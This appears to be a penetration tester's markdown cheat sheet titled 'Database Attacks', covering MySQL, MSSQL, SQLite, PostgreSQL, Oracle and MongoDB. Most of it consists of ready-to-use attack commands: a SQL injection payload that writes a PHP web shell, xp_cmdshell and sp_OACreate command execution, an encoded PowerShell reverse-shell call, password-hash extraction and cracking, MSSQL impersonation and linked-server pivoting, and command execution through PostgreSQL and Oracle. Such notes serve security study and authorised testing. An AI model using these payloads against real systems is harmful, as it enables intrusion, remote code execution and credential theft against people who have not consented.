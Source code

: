 ```yaml
---
layout: blank
pagetitle: Database Attacks
---
```


## General Database viewer tools
- Use `dbeaver` on kali, has a nice GUI and everything

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, authentication_string FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;` (or `show databases;`)
    	- Use a database with `use {db_name};` and enum tables with `show tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`
- If we're able to log in as the `mysql` user, we can sometimes read the `/var/lib/mysql/mysql/user.MYD` file containing the root password hash
  - The password will be split into two parts, one following `root*` and the other at the bottom of the file
    - Putting these together will yield something like `root:*{combined_password}` which can be cracked with `john`
  - Can do sometimes do something similar with `SELECT load_file('{file}');` as the root mysql user


## MSSQL
- Database management built into Windows
	- `master` database for system-level details, `msdb` database for scheduling alerts/jobs, `model` database acts as blueprint for new mssqlservers, `resource` database for hosting system objects in read-only fashion, `tempdb` database as temporary storage area
	- Users vs. logins
		- Both users and logins are required to perform database operations
		- Users dictate who can access the SQL server instance as a whole (but this doesn't provide any database access)
			- These can be local database users, like `sa`, local Windows users, or Domain users
			- Thus, a valid user without any database logins wouldn't be able to do anything, despite having credentials to access the server
		- Logins provide users access to specific databases within the server
- Controlled via `Invoke-Sqlcmd`
  - `Install-Module -Name SqlServer -Force`
  - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
- Importing [PowerUPSQL](https://github.com/NetSPI/PowerUpSQL) can give some useful Powershell commands, like `Get-SQLInstanceLocal` to identify local mssql servers
  - Cheatsheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
  - `Get-SQLServerPasswordHash` gets SQL server login passwords
  - Inspecting linked servers: `Get-SQLServerLink` 
    	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
- **Impacket's MSSqlClient** 
	- Kali has the very useful `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {database_username}:{password}@{host IP}`
		- `-windows-auth` allows us to authenticate with windows credentials; `-k` to use `.ccache` kerberos auth 
	- **Command Execution**
		- Can use `enable_xp_cmdshell` and `xp_cmdshell {command}` to execute commands on the underlying server
		- Can also use the blind `sp_start_job {command}` to execute commands, or the `sp_OACreate` method described below
		- Turn this execution into a reverse shell with the python reverse shell generator in Miscellaneous notes
			- `xp_cmdshell "powershell -exec bypass -enc {b64_payload}"`
	- **Password Hashes**
		- Get local database password hashes with `select name,password_hash from sys.sql_logins`
			- Ignore `##MS##` hashes, since they're usually disabled (can be checked in `sys.sql_logins`) and the passwords are random
		- Can be cracked with hashcat, but they need to be reorganized
			- Stored in `b'0200 + 4-byte salt + 64-byte SHA512 hash'` structure, and we need it in `0x{hex}` format, so just remove byte string indicators and add `0x` at the front
			- Then crack with `hashcat -m 1731`
	- **Impersonation**
		- We can use `enum_impersonate` to see who our current user can impersonate (`grantor` category)
			- We can enumerate both users and logins with `exec_as_user {user}` or `exec_as_login {login}` on their own, which will drop us into a shell as that user/in that database
				- If the authorized user or login is a domain user, we can pass the domain with `exec_as_{user/login} {domain}\{user}`
			- From this point, we should run `enum_impersonate` again to see if our new user can impersonate anyone
		- Our target would be to impersonate either the `sa` user, an equivalently-privileged user, or a `dbo` login of the `system` database
			- The `dbo` login stands for Database Owner and gives full control over that database
	- **Linked servers**
		- After enumerating all accessible users, we can enumerate linked mssql servers with `enum_links`
		- This will show us what linked servers our current user can use
			- This will show which users have remote login permissions
				- If local login `NULL` has a remote login, we can just execute queries without auth
				- What will be more likely is a user that has impersonation rights with a remote login on another server
					- Thus, we can log in as that user to the mssql server, run `use_link {server_name}`, and then interact with the database normally
					- The `sa` user won't show any explicit links, since they're able to impersonate any user with a link
						- Thus, if there's a user with access to a linked database, we can simply impersonate them using `sa`
			- Running `enum_links` as `sa` (or equivalent) will show all user links, allowing different chains
		- Can run basic queries as authorized users with `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Enabling `xp_cmdshell`:
	- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
		- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; `
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
		- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
- Can also use `sp_OACreate` to execute system commands:
	- `sp_configure 'show advanced options', 1;`
	- `RECONFIGURE;` 
	- `sp_configure 'Ole Automation Procedures', 1;`
	- `RECONFIGURE;`
	- `DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases visually 
  - If we want to quickly view a db, we can just `sqlite3 {db_file}`
- Enumeration:
  - We can view version with `.version`, databases with `.databases`, tables with `.tables`
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
	- Outdated versions may have RCE CVEs
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- We can read files with `.read {filename}`

## PostgreSQL
- Use `psql -U {username}` for to connect to PostgreSQL databases (with `-d {db_name}` for a database)
  - Then, we can list databases with `\l` and use `\c {db_name}` to connect to the database
  - `\d` to list the tables once connected
- Command execution with `COPY (SELECT '') TO PROGRAM 'bash -c "whoami"';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`
- Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`
- Read files using `COPY`
  - Start by creating a table with `CREATE TABLE demo(t text);`
  - Then `COPY demo FROM '{filename}';`, and then we can just read from the demo table

## Oracle
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
- Dumping Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`

## MongoDB
- Dumping MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`
- Connecting to a MongoDB: use `mongosh` or `mongo`
  - `mongo --host {IP}:{port} -u {username} -p {password} --authenticationDatabase {database_with_auth_info} ({database_to_use})`
